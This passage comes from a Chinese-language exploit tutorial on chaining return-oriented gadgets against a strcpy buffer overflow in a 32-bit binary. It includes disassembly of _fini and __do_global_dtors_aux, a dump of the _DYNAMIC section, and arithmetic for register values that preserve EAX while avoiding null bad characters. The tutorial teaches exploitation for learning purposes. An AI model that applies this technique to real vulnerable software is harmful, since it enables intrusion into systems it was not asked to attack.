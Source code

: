 但是`ret`（`0x80485d0`）看起来离这个指令（`0x80485b3`）很远。所以这里的挑战是，在`ret`指令之前，我们需要保证 EAX 不被修改。

不修改 EAX：

这里让我们看看如何使 EAX 在`ret`指令（`0x80485d0`）之前不被修改。这是一个调用指令（`0x80485bb`），所以让我们用这种方式来加载 EBX 和 ESI，就是调用指令会调用一个函数，它不修改 EAX。`_fini`看起来不修改 EAX。

```asm
0804861c <_fini>:
804861c: push %ebx
804861d: sub $0x8,%esp
8048620: call 8048625 <_fini+0x9>
8048625: pop %ebx
8048626: add $0x19cf,%ebx
804862c: call 8048450 <__do_global_dtors_aux>
8048631: add $0x8,%esp
8048634: pop %ebx
8048635: ret

08048450 <__do_global_dtors_aux>:
8048450: push %ebp
8048451: mov %esp,%ebp
8048453: push %ebx
8048454: sub $0x4,%esp
8048457: cmpb $0x0,0x804a028
804845e: jne 804849f <__do_global_dtors_aux+0x4f>
...
804849f: add $0x4,%esp
80484a2: pop %ebx
80484a3: pop %ebp
80484a4: ret
```

`_fini`调用了`_do_global_dtors_aux`，在我们将内存地址`0x804a028`设为 1 的时候，这里 EAX 可以可以保留下来。

为了调用`_fini`，EBX 和 ESI 的值是什么呢？

1.  首先我们需要寻找一个内存地址，它包含`_fini`的地址`0x804861c`。像下面展示的那样，内存地址`0x8049f3c `包含了`_fini`地址。

    ```
    0x8049f28 :    0x00000001 0x00000010 0x0000000c 0x08048354
    0x8049f38 <_DYNAMIC+16>: 0x0000000d 0x0804861c 0x6ffffef5 0x080481ac
    0x8049f48 <_DYNAMIC+32>: 0x00000005 0x0804826c
    ```
    
2.  将 ESI 设为`0x01020101`。推荐这个值，因为我们不能将其设为`0x0`，它是`strcpy `的漏洞代码，零是坏字符。同样，确保产生的值（储存在 EBX 中）也不包含零。

3.  像下面那样设置 EBX：

    ```
    ebx+esi*4-0xe0 = 0x8049f3c
    ebx = 0x8049f3c -(0x01020101*0x4) + 0xe0
    ebx = 0x3fc9c18
    ```
    
因此，我们发现，为了调用`_fini`，我们需要确保 EBX 和 ESI 分别加载为`0x3fc9c18 `和`0x01020101`。
